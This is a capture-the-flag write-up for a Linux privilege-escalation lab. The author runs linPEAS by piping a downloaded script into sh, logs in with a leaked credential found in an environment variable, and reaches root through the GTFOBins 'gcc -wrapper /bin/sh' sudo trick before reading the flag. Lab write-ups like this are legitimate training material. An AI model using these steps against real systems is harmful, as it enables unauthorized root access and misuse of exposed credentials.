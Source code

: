 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privilege to escalate ours **sinister laughing**. 

What's our target account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Nope. Gah! Rubbing my brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard teammate 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that command

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester and apply the new group, then ssh back in.
```

```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

Huzzah. Now what commands can we run as sudo?
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that GTFOBin again. 

And Bam! we're root.  

---

### Step 3: Flag Retrieval

Now we are gods, the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first

```bash
find / -name flag.txt -type f
/root/flag.txt
```

Looks promising. 

```bash
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like a thread for each challenge) to share progress and artefacts for challenges so someone can pick up from where you were stuck.
- Linpeas and gftobins are l337h4x0r was to privesc on linux. 🫶

---


